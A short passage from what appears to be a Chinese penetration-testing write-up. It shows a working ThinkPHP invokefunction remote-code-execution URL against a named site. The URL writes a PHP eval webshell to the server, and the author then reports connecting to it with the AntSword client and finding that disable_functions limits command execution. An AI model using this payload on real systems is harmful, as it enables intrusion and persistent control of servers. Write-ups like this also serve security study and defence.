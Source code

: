 [![](assets/1706145764-31b88dc4d8b791e59fdf3f57a5cb4b6f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240122213543-2437341e-b92b-1.png)

发现代码被执行了，所以其实是可以拿 shell 的

这里我通过 file\_put\_contents 函数去写入 webshell

```bash
http://www.weipan.com/index.php?
s=index/think\app/invokefunction&function=call_user_func_array&vars[0]=file_put_
contents&vars[1][]=a2cai.php&vars[1][]=%3C%3Fphp%20eval(%24_POST[1])%3B%3F%3E
```

上蚁剑然后连接成功！

[![](assets/1706145764-4a50e817564a0e1ab80af7748572d870.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240122213613-35f17566-b92b-1.png)

发现权限比较低，而且因为 disable\_functions 禁的比较全，所以也没办法直接执行系统命令
